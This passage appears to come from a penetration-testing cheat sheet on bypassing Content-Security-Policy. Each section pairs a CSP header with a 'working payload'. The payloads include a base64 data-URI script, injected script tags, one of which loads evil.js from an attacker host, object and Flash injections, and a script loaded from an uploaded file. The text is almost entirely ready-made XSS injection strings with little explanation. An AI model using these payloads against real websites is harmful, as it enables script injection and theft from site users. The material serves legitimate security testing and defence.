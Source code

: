 ```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval'; 
```

Working payload:

```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### strict-dynamic

If you can somehow make an **allowed JS code created a new script tag** in the DOM with your JS code, because an allowed script is creating it, the **new script tag will be allowed to be executed**.

### Wildcard (\*)

```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *; 
```

Working payload:

```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```

### Lack of object-src and default-src

{% hint style="danger" %}
**It looks like this is not longer working**
{% endhint %}

```yaml
Content-Security-Policy: script-src 'self' ;
```

Working payloads:

```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```

### File Upload + 'self'

```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ; 
```

If you can upload a JS file you can bypass this CSP:

Working payload:

```markup
"/>'><script src="/uploads/picture.png.js"></script>
```
